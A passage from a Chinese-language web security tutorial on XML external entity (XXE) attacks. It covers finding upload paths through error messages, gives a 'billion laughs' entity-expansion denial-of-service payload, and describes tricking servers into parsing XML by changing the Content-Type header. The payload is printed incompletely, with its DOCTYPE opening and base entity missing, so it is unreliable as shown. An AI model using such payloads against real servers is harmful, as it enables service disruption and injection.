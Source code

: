 如何找到上传的地址呢，使用一个不存在的文件就能报错显示路径了

![image.png](assets/1700812438-1501e56a7932dee8071dbf4173d2acc5.png)

具体利用方式还未想到。

## 1.8、DOS 攻击

```php
<?xml version="1.0"?>

 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## 1.9、JSON 转换成 XML 攻击

通常，在 Web 应用中，客户端通过 POST 请求向服务器发送数据时，会使用 Content-Type 头来指明数据的格式，如 application/json 表示 JSON 格式，application/xml 表示 XML 格式。

如果攻击者尝试将 Content-Type 头从合法的格式（如 application/json）更改为其他格式（如 application/xml），并且服务器未正确实施解析和验证机制，那么攻击者可能会成功地向服务器注入恶意数据。
